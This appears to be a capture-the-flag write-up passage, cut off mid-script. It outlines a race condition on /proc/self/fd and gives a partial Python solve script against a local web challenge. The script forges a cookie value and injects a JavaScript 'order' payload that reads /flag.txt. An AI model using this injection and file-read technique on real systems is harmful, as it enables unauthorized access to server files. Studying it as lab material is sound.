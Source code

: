 ```
1. Start a thread that reads the flag over and over again. This will create the file descriptors `/proc/self/fd`.
2. Start another thread that tries to read the files in `/proc/self/fd`.
3. Repeat 1. and 2. in a loop until the flag is returned. 

A python solve script will look like this:

```python
from time import sleep

import requests
import threading
import uuid

base_url = 'http://localhost:8000/'

register_url = base_url + 'register'

username = str(uuid.uuid4())
username = username.replace('-', '')

register_data = {
    'username': username,
    'password': '12345678'
}

r = requests.post(url=register_url, json=register_data)

if r.json()['error']:
    print("Registration failed!")
    exit()

login_url = base_url + 'login'

login_data = register_data

r = requests.post(url=login_url, json=login_data)

if r.json()['error']:
    print("Login failed!")
    exit()

cookies = r.cookies.get_dict()
passwd = cookies['passwd']
uid = cookies['uid']


def e_formatter(n):
    a = '{:.4E}'.format(float(n))
    e = a.find('E')
    return '0.{}{}{}{:02d}'.format(a[0], a[2:e], a[e:e + 2], abs(int(a[e + 1:]) * 1 + 1))


uid = e_formatter(uid)

checkout_url = base_url + 'checkout'


def create_fd():
    order = 'a = _=> { return readFile`/flag.txt` + a`` }, a``'

    COOKIES = {
        'order': order,
```